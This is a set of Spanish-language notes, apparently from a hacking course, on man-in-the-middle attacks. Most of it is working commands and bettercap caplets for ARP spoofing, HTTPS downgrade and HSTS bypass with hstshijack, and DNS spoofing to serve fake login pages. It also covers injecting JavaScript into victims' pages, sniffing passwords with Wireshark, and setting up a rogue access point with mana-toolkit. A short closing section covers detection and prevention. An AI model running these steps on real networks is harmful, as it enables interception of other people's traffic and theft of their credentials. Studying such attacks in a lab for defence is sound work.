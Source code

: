 MITM ATTACKS:  

ARP Spoofing (ARPSPOOF O BETTERCAP):  
ARP address resolution protocol se usa para mapear ip direcionas a los mac  
para ver la tabla arp  
```
arp -a   
```
el ataque consiste en explotar el protocolo arp para que se rescriba la tabla arp en el cliente y ruter para que uno piense que   
somo el ruter y otro que somos la victima de esta forma podemos interseptar los datos  
ARPSPOOF:  
1. Enable Port Forwarding in kali
```
echo 1 > /proc/sys/net/ipv4/ip_forward  
```
2. Spoof the target and router
```
arpspoof -i [interface wlan0] -t [clientIP] [gatewayIP]  
arpspoof -i [interface] -t [gatewayIP] [clientIP]  
```
si coremos arp-a en el ordenador victima veremos que la mac de los ips esta cambiada  
BETTERCAP:  
```
ifconfig  
bettercap -iface eth0   
```
in bettercap console:  
```
net.probe on   
```
descubre cliente conectados a la net tambien activa net.recon que crea una lista con ips y macs por lo que podemos hacer  
```
net.show  
```
arp spoof atack  
```
help arp.spoof  
set arp.spoof.fullduplex true  
set arp.spoof.targets x.x.x.x  
arp.spoof on  
```
para que funcione net.probe y net.recon tienen que estar funcionando  
para capturar todos los datos que fluyen por el ordenador nesecitamos net.sniff  
```
net.sniff on 
```
ahora podemos ver la informacion enviada en http  

script para bettercap podemos poner todos estos comandos en un archivo de texto y guardarlo con extencion .cap para ejecutarlos simultaneamente la proxima vez  
```
bettercap -iface eth0 -caplet file.cap  
```

Bypassing HTTPS:  
La forma mas simple es downgrade https to http para eso se usa ssl strip como metodo avanzado pero en bettercap tenemos un caplet que nos ayuda con eso   
pero no cambia todos los https a http  
descargamos el archivo hstshijack y lo movemos a ctrl+L /usr/share/bettercap/caplets/ antes eliminamos el que existe en la carpeta  
para que esto funcione antes de correr net.sniff on coremos   
```
set net.sniff.local true  
```
para capturar datos que incluso sean locales porque despues de usar el caplet la informacion aparecera como si fuera enviada desde nuestro ordenador  
```
script.cap  
net.probe on  
net.recon on  
set arp.spoof.fullduplex true  
set arp.spoof.targets x.x.x.x,x.x.x.x  
arp.spoof on  
set net.sniff.local true  
net.sniff on  
```
Bypassing HTTPS  
```
bettercap -iface eth0 -caplet file.cap  
```
para ver todos los coplets  
```
caplets.show  
```
usamos el caplet  
```
hstshijack/hstshijack  
```
Bypassing HSTS  
la forma de sobrepasar HTST es hacer que el navegador carge una web diferente con algun caracter en el dominio cambiado  
realizamos el ataque igual que antes y si la victima entra usando el buscador en una web capturamos su contraseña  

DNS Spoofing:  
DNS sever convierte los nombres de dominio a los ips de los servidores donde se encuentra la pagina hackeando este podemos  
devolver nuestra web local en vez de la que solicitan  
```
service apache2 start  
ifconfig  
```
podemos ir a nuestra ip para ver la pagina basica y modificar su html  
```
bettercap -iface eth0 -caplet file.cap  
help dns.spoof  
set dns.spoof.all true  
set dns.spoof.domains zsecurity.org,*.zsecurity.org  
```
esto funcionara con todas las webs incluso si usan https pero no con hsts podemos usarlo para cambiar la pagina de login  
inllectar codigo malicioso o proporcinar actualizaciones falsas  

Injecting Javascript Code:  
raplace links, replace images, insert html images, hook target browsers to explotation frameworks   
en hstshijack.cap espesificamos el archivo de js en payloads podemos espesificar vaios archivos separando con "," y indicando el path  
el codigo se ejecutara en http, https y en hsts solo si se busca a travez del navegador  
```
bettercap -iface eth0 -caplet file.cap  
hstshijack/hstshijack  
```

WIRESHARK:  
se usa para analizar el trafico que corre por tu interface  
cuando somos MITM usamos wireshark para capturar y analizar el trafico  
si usamos ierodump o otros programas para capturar trafico podemos abrir el archivo en wireshark  
selecionamos el interface que usamos para realizar el ataque  
```
bettercap -iface eth0 -caplet file.cap  
hstshijack/hstshijack  
```
y selecionamos el interface en el programa wireshark para analizar el trafico  
podemos filtrar todo el trafico para ver el http lo mas importante de los aquetes es el Hypertext transfer protocol   
basicamente la informacion enviada  
podemos pulsar boton derecho follow http stream para ver la respuesta al request  
para descubrir usuarios y contraseñas buscamos POST vemos si hay /login  
podemos pulsar CTRL+F nos abre una barra donde podemos buscar informacion en los paquetes capturados  
en bettercap script podemos espesificar que guarde toda la informacion a un archivo que luego podemos analizar  
```
script.cap  
net.probe on  
net.recon on  
set arp.spoof.fullduplex true  
set arp.spoof.targets x.x.x.x,x.x.x.x  
arp.spoof on  
set net.sniff.local true  
set net.sniff.output /root/capturefile.cap  
net.sniff on  
```
Creating a Fake Access Point  
Necesitamos un ordenador con internet y un adaptador wifi que pueda repartir internet  
usamos mana-toolkit que se usa para sobrepasar https capturar datos, crear puntos de haceso....  
mana tiene 3 scripts prinsipales pero el que vamos a usar es start-nat-simple que cre AP con acceso a internet  
```
leafpad /etc/mana-toolkit/hostapd-mana.conf  
```
modificamos el interface a nuestro adaptador y ssid que es con que nombre aparecera el punto de aceso 
```
leafpad /usr/share/mana-toolkit/run-mana/start-nat-simple.sh  
```
upstream ponemos el interface que tiene aceso a internet, phy el adaptador que repartira la conexion  
```
bash /usr/share/mana-toolkit/run-mana/start-nat-simple.sh  
```
ahora podemos usar wireshark o man in the midle F para analizar el trafico tenemos que usar la interface   
que esta repartiendo la señal  

Detectar Arp Poisoning:  
comprovamos que los mac de las ips son unicos  
```
arp -a  
```
podemos usar la heramienta XArp  

Detectar actividades sospechosas en la red con Wireshark:  
edit - preferences -protocols -arp - detect ARP requests  
de esta forma podemos detectar si algien intenta descubrir todos los dispositivos en la red  
si vemos que una ip envia varios arp request a todos los ips esque esta escaneando la red  
analize - expert information - (vemos warning con duplicate ip y ARP packet storm en note)  
Otra forma es poner tablas Arp Estaticas  

Para prevenir el ataque MITM:  
Usamos HTTPS evrywher plugin  
Usamos VPN  

